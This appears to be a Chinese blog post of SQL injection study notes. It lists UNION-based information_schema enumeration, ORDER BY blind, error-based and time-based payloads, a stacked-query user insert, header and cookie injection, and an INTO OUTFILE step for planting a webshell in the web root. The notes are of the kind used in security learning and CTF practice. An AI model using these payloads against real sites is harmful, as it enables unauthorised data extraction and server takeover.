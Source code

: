```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/SQL1.jpg)
   
   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟


### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql2.jpg)

报错信息’）要需求多构造）

![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql3.jpg)


### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码

